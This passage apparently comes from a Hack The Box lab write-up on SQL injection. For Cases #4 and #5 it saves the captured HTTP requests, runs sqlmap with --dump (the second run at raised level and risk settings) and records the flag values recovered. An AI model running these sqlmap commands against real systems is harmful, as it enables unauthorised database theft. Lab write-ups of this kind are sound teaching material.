 Results: HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}



**What's the contents of table flag4? (Case #4)**

We save the following request:

```bash
POST /case4.php HTTP/1.1
Host: 94.237.54.116:55862
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 8
Origin: http://94.237.54.116:55862
Connection: keep-alive
Referer: http://94.237.54.116:55862/case4.php

{"id":1}

```

And now:

```bash
sqlmap -r r4 -T flag4 --dump --batch
```

Results: HTB{j450n_v00rh335_53nd5_6r475}


**What's the contents of table flag5? (Case #5)**

We capture the request and save under name r5:

```bash
GET /case5.php?id=1 HTTP/1.1
Host: 94.237.63.92:51270
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.63.92:51270/case5.php
Cookie: filemanager=4umv9nhasf1ebkuap971gk9jae
Upgrade-Insecure-Requests: 1

```

And now we elevate the risk: 

```bash
sqlmap -r r5  -T flag5 --dump  -p id --batch --level=5 --risk=3 
```

Results: HTB{700_much_r15k_bu7_w0r7h_17}
